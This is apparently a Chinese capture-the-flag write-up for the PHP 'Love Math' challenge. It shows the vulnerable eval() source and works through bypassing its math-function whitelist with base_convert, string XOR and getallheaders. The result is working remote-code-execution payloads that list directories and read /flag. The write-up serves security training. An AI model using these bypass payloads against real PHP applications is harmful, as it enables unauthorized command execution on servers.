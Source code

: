 ## Love Math

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

利用数学函数构造eval可以执行的webshell进而读取flag,有一点像无参数RCE

数学函数中有一个特殊函数为`base_convert`

`base_convert ( string $number , int $frombase , int $tobase ) : string`

>返回一**字符串**,包含`number`以`tobase`进制的表示,`number`本身的进制由`frombase`指定,`frombase`和`tobase`都只能在2和36之间(包括2和36),高于十进制的数字用字母`a-z`表示 

`base_convert(1751504350,10,36)`得到`system`

`base_convert(784,10,36)`得到`ls`

`base_convert(724009,10,36)`得到`find`

`system('ls')`的payload为`?c=base_convert(1751504350,10,36)(base_convert(784,10,36))`

`system('find')`的payload为`?c=base_convert(1751504350,10,36)(base_convert(724009,10,36))`

但是buuoj复现的题目的flag并不在www目录下,尝试对根目录进行搜索,因此需要对` /`进行构造

> 在php中可以对字符串进行异或,同时php中的函数名使用字符串来表示

```php
var_dump(urlencode("asdf"^"qwer"));
var_dump(urlencode("asdf"^"qwer0"));
/*
string(12) "%10%04%01%14"
string(12) "%10%04%01%14"
*/
```

```php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($i=0;$i<count($whitelist);++$i){
    for($j=0;$j<count($whitelist);++$j){
        for($k=0;$k<0xff;++$k){
            $s=$whitelist[$i]^$whitelist[$j]^dechex($k);
            if($s==' /'){
                var_dump($whitelist[$i]);
                var_dump($whitelist[$j]);
                var_dump($k);
            }
        }
    }
}
```

` /`的payload为`asin^pi^dechex(21)`

`system('ls /')`的payload为`?c=base_convert(1751504350,10,36)(base_convert(784,10,36).(asin^pi^dechex(21)))`,可以对payload进行缩短`?c=($pi=base_convert)(1751504350,10,36)($pi(784,10,36).(asin^pi^dechex(21)))`

得到flag在根目录下为`/flag`

在无参数RCE中有一个函数为`getallheaders`,构造`system(getallheaders(){xxx})`的payload即可执行任意代码,但是在php中直接`base_convert("getallheaders",36,10)`会出问题,因此使用`base_convert("getallheaders",30,10)`代替

```php
<?php
var_dump(base_convert(base_convert("getallheaders",36,10),10,36));
//string(13) "getallheadc08"
var_dump(base_convert(base_convert("getallheaders",30,10),10,30));//8768397090111664438
//string(13) "getallheaders"
```

payload为`?c=($pi=base_convert)(1751504350,10,36)($pi(8768397090111664438,10,30)(){1})`

添加header为`1 => ls`,即可执行`system('ls')`

![image-20210424140339386](image-20210424140339386.png)

![image-20210424140401445](image-20210424140401445.png)

---

> 特殊技巧

1. 除了使用`cat`命令读取文件外,使用`nl`命令也可以进行读取文件

2. `cat /*`的16进制为`636174202f2a`,`echo hex2bin('636174202f2a');`可以得到`cat /*`

3. 构造`$_GET`来手动传入参数

`'1517'^'nrtc'=='_GET'`

payload`?c=$pi=base_convert;$pi=$pi(53179,10,36)^$pi(1109136,10,36);${$pi}{0}(${$pi}{1})&0=system&1=cat /flag`

![image-20210424142210869](image-20210424142210869.png)